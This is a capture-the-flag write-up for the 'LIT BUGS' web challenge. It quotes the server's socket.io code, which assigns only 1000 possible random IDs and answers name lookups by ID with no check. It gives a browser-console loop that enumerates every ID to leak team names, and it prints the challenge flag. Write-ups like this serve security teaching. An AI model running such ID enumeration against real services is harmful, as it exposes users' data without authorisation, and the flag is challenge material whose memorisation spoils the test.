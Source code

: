 # web/LIT BUGS (92 solves / 129 points)
## Description
Last year's LIT platform may or may not have had some security vulnerabilities. We have created a simplified version of last year's platform called LIT BUGS (Lexington Informatics Tournament's Big Unsafe Grading System). The flag is the team name of the only registered user. Visit LIT BUGS [here](http://websites.litctf.live:8000/)
Downloads:
[LIT Bugs.zip](https://drive.google.com/uc?export=download&id=1KH4xaRabJVIFFfmNKxep5ZLFH24muqHy)

## Solution:
When I clicked the link the description I was presented with a website that looks a lot like the current ctf website. This website has only a home page, a register page, a login page, and a contest page. 
After analyzing the source code given, I found that the website uses websockets for the register and login functions. In addition to this, there is also an endpoint that returns a teams name when given their ID.

Relevant code: 
```
	io.on('connection',(socket) => {
		socket.on('login',(tn,pwd) => {
			if(accounts[tn] == undefined || accounts[tn]["password"] != md5(pwd)) {
				socket.emit("loginRes",false,-3);
				return;
			}
			socket.emit("loginRes",true,accounts[tn]["rand_id"]);
			return;
		});

		socket.on('reqName',(rand_id) => {
			name = id2Name[parseInt(rand_id)];
			socket.emit("reqNameRes",name);
		});

		socket.on('register',(tn,pwd) => {
			if(accounts[tn] != undefined) {
				socket.emit("regRes",false,-1);
				return;
			}
			if(Object.keys(accounts).length >= 500) {
				socket.emit("regRes",false,-2);
				return;
			}
			var rand_id = Math.floor(Math.random() * 1000);
			while(id2Name[rand_id] != undefined) {
				rand_id = Math.floor(Math.random() * 1000);
			}
			accounts[tn] = {
				"password": md5(pwd),
				"rand_id": rand_id
			};
			id2Name[rand_id] = tn;
			socket.emit("regRes",true,rand_id);
		});
	});
```

As you can see from this code, ID's are generated by taking a random number from 1 to 1000. With only 1000 possible ID's, this is well within bruteforcing range. The endpoint that allows name lookup based on ID's should be vulnerable to a bruteforce attack, as the flag is the name of a team. I made a short JS script to run in my browser's JS console which bruteforced all 1000 ID's:
socket.on("reqNameRes",(name)=>{
	console.log(name)
});
for(var i = 0;i<1000;i++){
	socket.emit("reqName",i)
}
This worked, and after looking through the results, I found the following flag:

## Flag
flag{if_y0u_d1d_not_brut3force_ids_plea5e_c0ntact_codetiger}